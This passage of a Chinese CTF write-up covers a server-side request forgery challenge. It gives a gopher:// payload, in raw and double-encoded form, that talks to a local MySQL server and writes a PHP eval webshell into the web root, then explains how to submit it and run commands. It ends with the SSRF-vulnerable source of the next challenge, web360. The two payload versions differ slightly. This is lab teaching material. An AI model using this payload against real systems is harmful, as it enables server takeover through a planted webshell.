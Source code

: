 下载工具

![image-20220417233251330](https://i-blog.csdnimg.cn/blog_migrate/96232bb99b29ea20befa2a98107d0db3.png)

我们拿到

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%44%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%3b%20%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%01%00%00%00%01

```

但是不能直接使用，因为`gopher://127.0.0.1:3306/_`后面的内容需要再`urlencode`一次，最后得到

```
gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2545%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2522%253c%253f%2570%2568%2570%2520%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2531%255d%2529%253b%253f%253e%2522%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2522%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2531%252e%2570%2568%2570%2522%2501%2500%2500%2500%2501

```

回到环境中，随便输入账号密码跳转到`check.php`,然后post传参：`returl=xxx`(把上面得到的传进去)

然后一句话就写进去了，再访问`url/1.php` (1.php为我们指定的文件名)，然后进行命令执行

![image-20240904205148598](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409042051656.png)

### web360

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```
